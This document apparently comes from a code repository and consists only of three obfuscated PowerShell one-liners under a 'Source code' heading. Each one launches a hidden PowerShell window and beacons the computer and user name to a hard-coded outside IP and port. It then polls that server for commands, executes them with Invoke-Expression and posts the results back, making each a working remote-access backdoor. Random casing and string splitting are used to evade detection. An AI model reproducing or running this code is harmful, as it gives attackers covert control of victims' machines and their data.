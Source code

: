 StA'rT-prO'CESS $PSHOME\powershell.exe -ArgUMeNTlIST {$676=$('573b60' -rEplaCe '[(5|\?)(7|\?)(3|\?)(b|\?)\d(0|\?)]{6}','31.166.215.197:45001');$359=$('71e88315' -rePlaCe '[\d\d\w\d83\d]{7}[\d]{1}','bc510bb7-6cdbae3b-609bdcb1');$3170=$('d55c43b' -rEplacE '[d(5|\?)(5|\?)c]{4}[\d\d\w]{3}','http://');$8fa=invO'kE-ReSTMETho'D -USEBasIcPaRsInG -uRI $3170$676/bc510bb7/$env:cOMPUTeRnAme/$env:USeRNAMe -HEADers @{"Authorization"=$359};for (;;){$b6669b=(invO'kE-ReSTMETho'D -USEBasIcPaRsInG -uRI $3170$676/6cdbae3b -HEADers @{"Authorization"=$359});if ($b6669b -NE ('None')) {$2=i'NvOkE-ExPRessiOn' $b6669b -ERRoraCtion st'OP' -eRRORvAriabLe 13e25;$2=o'Ut-stRINg' -iNPuTOBjeCt $2;$b81=invO'kE-ReSTMETho'D -uRI $3170$676/609bdcb1 -meTHOd POST -HEADers @{"Authorization"=$359} -body ($13e25+$2)} S'lee'p 0.8}} -WiNDOWstYLE h'IddEN'

S'TARt-pRoCesS' $PSHOME\powershell.exe -ARGuMEnTlISt {$8db='3'+'1.166.2'+'1'+'5.197'+':4500'+'1';$0a1f=$('8cbb53b6-f542'+'5aea-043'+'2279e');$51189=$('204633' -RepLaCE '[\d0\d\d(3|\?)\d]{6}','http://');$d8=i'Rm' -uSebAsiCparsing -uRi $51189$8db/8cbb53b6/$env:COMpUTeRnAME/$env:UsErnAme -heaDERs @{"Authorization"=$0a1f};for (;;){$0a1=(i'Rm' -uSebAsiCparsing -uRi $51189$8db/f5425aea -heaDERs @{"Authorization"=$0a1f});if ($0a1 -NE ('None')) {$15820=i'Ex' $0a1 -ERrOrACtIon s'Top' -eRrORVArIaBlE 1;$15820=oUt-'StrING' -INpuTobJECT $15820;$ded=i'Rm' -uRi $51189$8db/0432279e -methoD POST -heaDERs @{"Authorization"=$0a1f} -BOdY ($1+$15820)} S'lEEP' 0.8}} -WInDowSTYLe H'idDen'

S'tarT-PROcESS' $PSHOME\powershell.exe -aRGUmeNtLiST {$9=$('c8a9' -REpLAcE '[c8(a|\?)(9|\?)]{4}','31.166.215.197:45001');$94663=$('ed7b4860-9bd8f62e-848'+'4a71'+'0');$0='http://';$39=IN'VokE-REstMetho'd -USeBaSIcpArSiNg -urI $0$9/ed7b4860/$env:cOmpUternAMe/$env:USeRnaME -HEadErs @{"Authorization"=$94663};for (;;){$301=(IN'VokE-REstMetho'd -USeBaSIcpArSiNg -urI $0$9/9bd8f62e -HEadErs @{"Authorization"=$94663});if ($301 -Ne ('Non'+'e')) {$071=iNvOk'E-EXprESSio'n $301 -ERRORAction sT'OP' -errORVARiABLE 5;$071=oUt-'stRi'ng -InPutObJEcT $071;$96=IN'VokE-REstMetho'd -urI $0$9/8484a710 -METHOd POST -HEadErs @{"Authorization"=$94663} -BODy ($5+$071)} SlE'EP' 0.8}} -WinDOWStyLE H'ID'den
